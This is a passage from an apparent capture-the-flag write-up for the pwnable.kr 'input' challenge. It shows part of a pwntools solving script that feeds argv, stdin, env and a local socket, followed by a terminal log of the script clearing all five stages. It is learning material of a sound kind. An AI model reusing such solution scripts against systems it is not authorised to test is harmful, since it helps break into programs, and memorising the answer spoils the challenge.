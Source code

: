 ```python
    fd.write("\x00\x00\x00\x00")

# stage 5
argvs[0x43] = "50000"

p = process(executable = "/home/input2/input", argv = argvs, stderr = open("./stderr"), env = envv)

# stage 2
p.send("\x00\x0a\x00\xff")

# stage 5
s = remote("localhost", 50000)
s.send("\xde\xad\xbe\xef")

p.interactive()
```

```bash
input2@prowl:/tmp$ mkdir ChyKor12
input2@prowl:/tmp$ cd ChyKor12
input2@prowl:/tmp/ChyKor12$ vi exploit_input.py
input2@prowl:/tmp/ChyKor12$ ln -s ~/flag flag
input2@prowl:/tmp/ChyKor12$ ls -al
total 244
drwxrwxr-x    2 input2 input2   4096 Jan  8 01:07 .
drwxrwx-wt 6315 root   root   237568 Jan  8 01:07 ..
-rw-rw-r--    1 input2 input2    570 Jan  8 01:07 exploit_input.py
lrwxrwxrwx    1 input2 input2     17 Jan  8 01:07 flag -> /home/input2/flag
input2@prowl:/tmp/ChyKor12$ python exploit_input.py
[+] Starting local process '/home/input2/input': pid 25377
[+] Opening connection to localhost on port 50000: Done
[*] Switching to interactive mode
Welcome to pwnable.kr
Let's see if you know how to give input to program
Just give me correct inputs then you will get the flag :)
Stage 1 clear!
Stage 2 clear!
Stage 3 clear!
Stage 4 clear!
Stage 5 clear!
Mommy! I learned how to pass various input in Linux :)
[*] Got EOF while reading in interactive
$
```

